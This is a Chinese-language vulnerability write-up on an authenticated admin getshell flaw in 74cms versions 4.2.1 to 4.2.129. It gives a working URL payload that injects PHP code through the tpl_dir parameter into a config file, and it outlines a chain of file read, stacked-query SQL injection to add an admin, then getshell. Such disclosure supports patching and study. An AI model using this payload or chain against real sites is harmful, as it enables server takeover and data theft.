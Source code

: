 74cms v4.2.1-v4.2.129-后台getshell漏洞
======================================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02漏洞演示
------------

![](./resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId24.png)

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'

    shell:http://74cms.test/Application/Home/Conf/config.php
    路径：\74cms\upload\Application\Home\Conf\config.php

![](./resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId25.png)

![](./resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId26.png)

0x03 漏洞原理
-------------

    url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
    路径：74cms\upload\Application\Admin\Controller\TplController.class.php

![](./resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId28.png)

    路径： 74cms\upload\Application\Common\Controller\BackendController.class.php

![](./resource/74cmsv4.2.1-v4.2.129-后台getshell漏洞/media/rId29.png)

0x04题外话-认真版getshell方法
-----------------------------

认真版getshell方法：实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。首先利用-任意文件读取漏洞-读取系统中的hash值然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户在通过这个后台getshell漏洞即可完成一套日穿

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm
